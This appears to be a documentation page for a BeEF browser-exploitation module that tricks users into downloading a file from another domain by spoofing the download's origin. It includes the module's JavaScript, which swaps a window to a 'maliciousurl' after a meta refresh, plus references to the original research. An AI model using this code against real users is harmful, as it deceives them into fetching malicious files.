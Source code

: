 ## Summary

* **Objective**: Trick the user into downloading a file from another domain
* **Authors**: Bart Leppens
* **Browsers**: Firefox, Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/lcamtuf_download)

## Internal Working

points the targeted window to a cross-origin attachment download and try to spoof to source of that download to look like the current domain (doesn't work on later versions)

```js

function doit() {
    if (!beef.browser.isIE()) {
            w = window.open('data:text/html,<meta http-equiv="refresh" content="0;URL=' + realurl + '">', 'foo');
            setTimeout(donext, 4500);
    }
}

function donext() {
            window.open(maliciousurl, 'foo');
            if (once != true) setTimeout(donext, 5000);
            once = true;
}


```


## References
* https://lcamtuf.blogspot.co.uk/2012/05/yes-you-can-have-fun-with-downloads.html
* http://lcamtuf.coredump.cx/fldl/

## Feedback
